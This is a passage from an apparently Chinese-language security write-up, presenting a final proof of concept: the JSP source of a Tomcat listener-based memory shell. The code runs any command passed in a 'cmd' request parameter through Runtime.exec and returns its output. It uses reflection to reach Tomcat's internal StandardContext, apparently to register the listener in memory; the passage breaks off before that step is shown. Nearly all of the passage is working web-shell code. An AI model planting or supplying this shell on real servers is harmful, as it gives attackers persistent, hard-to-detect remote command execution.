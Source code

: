 ### 3. 最终 PoC

#### JSP 版

JAVA

```
<%@ page import="org.apache.catalina.core.StandardContext" %>  
<%@ page import="java.util.List" %>  
<%@ page import="java.util.Arrays" %>  
<%@ page import="org.apache.catalina.core.ApplicationContext" %>  
<%@ page import="java.lang.reflect.Field" %>  
<%@ page import="java.util.ArrayList" %>  
<%@ page import="java.io.InputStream" %>  
<%@ page import="org.apache.catalina.connector.Request" %>  
<%@ page import="org.apache.catalina.connector.Response" %>  
<%!  
  
    class ListenerMemShell implements ServletRequestListener {  
  
        @Override  
        public void requestInitialized(ServletRequestEvent sre) {  
            String cmd;  
            try {  
                cmd = sre.getServletRequest().getParameter("cmd");  
                org.apache.catalina.connector.RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();  
                Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");  
                requestField.setAccessible(true);  
                Request request = (Request) requestField.get(requestFacade);  
                Response response = request.getResponse();  
  
                if (cmd != null){  
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();  
                    int i = 0;  
                    byte[] bytes = new byte[1024];  
                    while ((i=inputStream.read(bytes)) != -1){  
                        response.getWriter().write(new String(bytes,0,i));  
                        response.getWriter().write("\r\n");  
                    }  
                }  
            }catch (Exception e){  
                e.printStackTrace();  
            }  
        }  
  
        @Override  
        public void requestDestroyed(ServletRequestEvent sre) {  
        }  
    }  
%>  
  
<%  
    ServletContext servletContext =  request.getServletContext();  
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");  
    applicationContextField.setAccessible(true);  
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);  
  
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");  
    standardContextField.setAccessible(true);  
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);  
```